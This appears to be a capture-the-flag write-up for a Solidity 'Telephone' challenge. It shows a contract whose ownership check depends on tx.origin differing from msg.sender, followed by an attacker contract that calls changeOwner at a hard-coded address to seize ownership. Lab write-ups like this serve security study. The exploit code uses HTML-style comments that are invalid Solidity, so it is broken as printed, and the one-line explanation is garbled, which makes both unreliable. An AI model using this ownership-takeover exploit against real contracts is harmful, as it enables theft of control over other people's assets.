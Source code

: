pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

solution: The TX sender has to be different from the msg.sender so that the new owner can be determined.

pragma solidity ^0.4.24;

contract telephone {
    function changeOwner(address _owner) public;
}

contract inception{
    constructor() {
        <!-- this will call the function with a different contract address -->
        telephone contractToCall = telephone(0x4f05ccb4066b24bf5cfe0963fb335b5a13cb0d66);
        <!-- this will determine me as the new contract owner -->
        contractToCall.changeOwner(0x8c2a483d40181bac86efc7b9e1f5dc4b4b7e3df6);
    }
}
